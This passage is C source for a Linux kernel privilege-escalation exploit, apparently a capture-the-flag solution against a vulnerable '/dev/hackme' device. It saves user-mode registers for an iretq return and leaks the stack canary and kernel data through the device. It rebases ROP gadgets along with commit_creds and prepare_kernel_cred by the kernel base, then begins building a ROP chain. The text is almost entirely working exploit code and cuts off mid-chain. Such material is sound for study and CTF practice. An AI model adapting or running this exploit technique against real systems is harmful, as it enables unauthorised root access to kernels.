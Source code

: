 ```c
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    info("status saved!",0);
}

void show( size_t buf[] , int len){
    for (int i =0;i<len;i++){
        printf("0x%-4x -> 0x%lx\n" , i,buf[i]);
    }
}

void set_offset(){
    commit_creds += vmlinux_base;
    prepare_kernel_cred += vmlinux_base;

    pop_rdi_ret += vmlinux_base;
    pop_rdx_ret += vmlinux_base;
    pop_rcx_ret += vmlinux_base;

    mov_rdi_rax_jne_pop2_ret += vmlinux_base;

    cmp_rdx_jne_pop2_ret += vmlinux_base;
    swapgs_pop_rbp_ret += vmlinux_base;
    iretq_ret += vmlinux_base;

    info("commit_creds" , commit_creds);
    info("prepare_kernel_cred" , prepare_kernel_cred);
}


int main(){
    
    size_t buf[0x100] = {0};
    size_t rop[0x600] = {0};
    size_t canary ; 
    int length =  (0x80 + 0x18 + 0x10);
    int i = 0x10;

    save_status();
    signal(SIGSEGV, shell);

    int fd = open("/dev/hackme" , 2);


    read(fd , buf ,length);

    show(buf , length/8);
    canary = buf[i];


    set_offset();

    rop[i++] = canary;
    rop[i++] = 0;
    rop[i++] = 0;
    rop[i++] = 0;
```